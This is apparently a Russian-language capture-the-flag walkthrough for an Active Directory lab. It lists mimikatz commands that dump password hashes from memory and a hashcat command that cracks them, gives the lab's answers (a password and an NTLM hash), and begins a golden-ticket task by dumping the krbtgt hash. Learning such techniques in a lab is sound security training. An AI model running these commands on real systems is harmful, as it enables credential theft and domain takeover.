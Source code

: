 

Дамп хэшей с помощью mimikatz -

1.) cd Downloads && mimikatz.exe это перейдет в каталог, в котором хранится mimikatz, а также запустит двоичный файл 
mimikatz 



2.) privilege::debug Убедитесь, что на выходе отображается «Privilege '20' ok» — это гарантирует, что вы запускаете 
mimikatz от имени администратора; если вы не запустите mimikatz от имени администратора, mimikatz не будет работать 
должным образом.  



3.) lsadump::lsa /patch Сбросьте эти хэши!



Взломайте эти хеши с помощью hashcat﻿

1.)hashcat -m 1000 <hash> rockyou.txt    



Mimikatz имеет множество применений, помимо того, что он является отличным инструментом для сброса хэшей, мы 
рассмотрим еще один из таких способов использования mimikatz в следующей задаче, создав золотой билет с помощью 
mimikatz.  

### Ответить на вопросы ниже
какой пароль у Machine1?
```commandline
Password1
```
Что такое хэш Machine2?
```commandline
c39f2beb3d2ec06a62cb887fb391dee0
```

## Задание 5
Снова используем тот же инструмент, что и в предыдущем задании, однако на этот раз мы будем использовать его для 
создания золотого билета. 

Сначала мы выгрузим хэш и sid пользователя krbtgt, затем создадим золотой билет и используем его для открытия новой 
командной строки, позволяющей нам получить доступ к любой машине в сети. 

Я уже потратил время на установку mimikatz на машину.



Сбросьте хэш krbtgt -

﻿1.)cd downloads && mimikatz.exe    
